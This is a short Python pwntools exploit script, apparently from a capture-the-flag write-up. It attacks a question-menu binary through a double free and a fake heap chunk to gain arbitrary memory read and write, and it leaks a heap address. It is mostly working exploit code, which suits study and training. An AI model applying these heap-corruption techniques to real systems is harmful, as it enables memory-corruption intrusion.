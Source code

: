 Script used:
----------------------------------------------------------

```python
#!/usr/bin/env python2.7

from pwn import *

def create():
    p.sendlineafter("):", "C")

def destroy(id):
    p.sendlineafter("):", "D")
    p.sendlineafter("id:", str(id))

def set(id, question):
    p.sendlineafter("):", "S")
    p.sendlineafter("id:", str(id))
    p.sendlineafter("question:", question)

def ask(id):
    p.sendlineafter("):", "A")
    p.sendlineafter("id:", str(id))
    p.recvuntil("'")
    return p.recvuntil("'", drop=True)

# Writes a string to the supplied memory address
def write_memory(src, dest):
    set_memory(src)
    set(1, dest)

# Reads memory at the supplied address
def read_memory(src):
    set_memory(src)
    return u32(ask(1)[:4])

# Sets the question pointer of questions[1] to be the supplied memory address
def set_memory(memory_to_leak, next_pointer=0x0):
    if (next_pointer == 0x0):
        next_pointer = elf.symbols["print_question"]

    payload = p32(0x0) * 0x7
    payload += p32(0x00000021)
    payload += p32(next_pointer)
    payload += p32(0x0) * 0x5
    payload += p32(memory_to_leak)
    payload += p32(0x00000021)
    set(0, payload)

start()

# Double free 1, so when allocating 2 you will store the back pointer to 1 in a chunk
create()
create()
destroy(1)
create()
destroy(1)
create()

heap_addr = u32(ask(2)[:4])

# Sets back pointer of 1 to itself, so when allocating a question, you allocate the same chunk twice
set_memory(0x0, heap_addr)
```
